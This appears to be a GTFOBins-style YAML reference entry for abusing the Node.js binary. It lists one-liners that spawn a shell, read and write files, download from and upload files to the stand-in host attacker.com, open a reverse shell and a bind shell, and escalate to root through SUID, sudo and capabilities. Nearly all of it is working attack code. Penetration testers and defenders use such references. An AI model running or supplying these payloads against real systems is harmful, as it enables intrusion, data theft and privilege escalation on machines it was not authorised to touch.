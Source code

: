 ```yaml
---
functions:
  shell:
    - code: |
        node -e 'child_process.spawn("/bin/sh", {stdio: [0, 1, 2]})'
  file-write:
    - code: node -e 'fs.writeFileSync("file_to_write", "DATA")'
  file-read:
    - code: node -e 'process.stdout.write(fs.readFileSync("/bin/ls"))'
  file-download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        node -e 'http.get(process.env.URL, res => res.pipe(fs.createWriteStream(process.env.LFILE)))'
  file-upload:
    - description: Send a local file via HTTP POST request.
      code: |
        export URL=http://attacker.com
        export LFILE=file_to_send
        node -e 'fs.createReadStream(process.env.LFILE).pipe(http.request(process.env.URL))'
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        node -e 'sh = child_process.spawn("/bin/sh");
        net.connect(process.env.RPORT, process.env.RHOST, function () {
          this.pipe(sh.stdin);
          sh.stdout.pipe(this);
          sh.stderr.pipe(this);
        })'
  bind-shell:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell.
      code: |
        export LPORT=12345
        node -e 'sh = child_process.spawn("/bin/sh");
        net.createServer(function (client) {
          client.pipe(sh.stdin);
          sh.stdout.pipe(client);
          sh.stderr.pipe(client);
        }).listen(process.env.LPORT)'
  suid:
    - code: |
        ./node -e 'child_process.spawn("/bin/sh", ["-p"], {stdio: [0, 1, 2]})'
  sudo:
    - code: |
        sudo node -e 'const { spawn } = require("node:child_process"); spawn("/bin/sh", {stdio: [0, 1, 2]})'
  capabilities:
    - code: |
        ./node -e 'process.setuid(0); child_process.spawn("/bin/sh", {stdio: [0, 1, 2]})'
---
```

